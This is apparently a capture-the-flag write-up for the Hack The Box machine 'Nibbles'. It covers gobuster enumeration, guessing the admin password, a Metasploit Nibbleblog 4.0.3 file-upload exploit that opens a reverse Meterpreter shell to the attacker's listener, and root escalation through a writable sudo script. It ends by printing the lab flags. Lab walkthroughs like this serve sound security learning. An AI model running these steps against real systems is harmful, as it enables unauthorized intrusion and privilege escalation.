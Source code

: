 # Nibbles - 10.10.10.75
## Gobuster scan on http

upon closer inspection of the website, viewing the source reveals a hidden directory

### /nibbleblog

running gobuster on this page immediately gets results and I notice that there is an admin.php extention

```
gobuster dir -u http://10.10.10.75/nibbleblog/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20 -o gobuster-medium-nibblesblog.txt -x .html,.php,.txt
```
after a few guesses.. admin:admin, nibbles:nibbles, nibbles:nibble, `admin:nibbles` I get a login and am able to access the admin panel

Username: admin
Password: nibbles

Looking through the page, under settings at the bottom we see the version of nibbleblog that is currently installed

Nibbleblog 4.0.3 "Coffee" - Developed by Diego Najar

With this information we can figure out an exploit using seachsploit that runs on this specific version

There is a metasploit module that performs an arbitratry file upload to the website

```ruby
msf5 exploit(multi/http/nibbleblog_file_upload) > show options

Module options (exploit/multi/http/nibbleblog_file_upload):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    yes       The password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the web application
   USERNAME                    yes       The username to authenticate with
   VHOST                       no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   Nibbleblog 4.0.3


msf5 exploit(multi/http/nibbleblog_file_upload) > set RHOSTS 10.10.10.75
RHOSTS => 10.10.10.75
msf5 exploit(multi/http/nibbleblog_file_upload) > set USERNAME admin
USERNAME => admin
msf5 exploit(multi/http/nibbleblog_file_upload) > set password nibbles
password => nibbles
msf5 exploit(multi/http/nibbleblog_file_upload) > set TARGETURI /nibbleblog/
TARGETURI => /nibbleblog/
msf5 exploit(multi/http/nibbleblog_file_upload) > run

[*] Started reverse TCP handler on 10.10.14.4:4444 
[*] Sending stage (38288 bytes) to 10.10.10.75
[*] Meterpreter session 1 opened (10.10.14.4:4444 -> 10.10.10.75:57512) at 2020-05-09 07:38:34 -0400
[+] Deleted image.php

meterpreter > 
```

running the expoit with the correct options gives us a meterpreter shell


moving into nibbler's home directory, we have user.txt and a personal.zip file
```
meterpreter > cd nibbler
meterpreter > ls
Listing: /home/nibbler
======================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100600/rw-------  0     fil   2017-12-29 05:29:56 -0500  .bash_history
40775/rwxrwxr-x   4096  dir   2017-12-10 22:04:04 -0500  .nano
100400/r--------  1855  fil   2017-12-10 22:07:21 -0500  personal.zip
100400/r--------  33    fil   2017-12-10 22:35:21 -0500  user.txt

meterpreter > cat user.txt
b02ff32bb332deba49eeaed21152c8d8

```

## onto root

look for the low hanging fruit `sudo -l`

```
sudo -l
sudo: unable to resolve host Nibbles: Connection timed out
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

so as nibbler we can run this file monitor.sh as root

download the file and examine it to see if i can get a root shell from it 

simply by adding bash to the top of the file and executing monitor.sh with sudo we can get back a root shell

however we need to set the environment properly before we can use a text editor like vi

```
$ python3 -c 'import pty; pty.spawn("/bin/bash")'                                                                                                                         
nibbler@Nibbles:/home/nibbler/personal/stuff$ ^Z                                                                                                                          
[1]+  Stopped                 nc -lvnp 1985                                          
jonathan@kali:~/htb/boxes/owned/nibbles$ stty raw -echo                              
jonathan@kali:~/htb/boxes/owned/nibbles$ nc -lvnp 1985

nibbler@Nibbles:/home/nibbler/personal/stuff$ stty rows 40 columns 170

```

with the shell properly set we open the file with vi, type the bash command right after the shebang and excute th efile with sudo

## win
```
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo ./monitor.sh
sudo: unable to resolve host Nibbles: Connection timed out
root@Nibbles:/home/nibbler/personal/stuff# 

root@Nibbles:/home/nibbler/personal/stuff# cd /root
root@Nibbles:~# ls
root.txt
root@Nibbles:~# cat root.txt
b6d745c0dfb6457c55591efc898ef88c
```

user.txt: b02ff32bb332deba49eeaed21152c8d8
root.txt: b6d745c0dfb6457c55591efc898ef88c


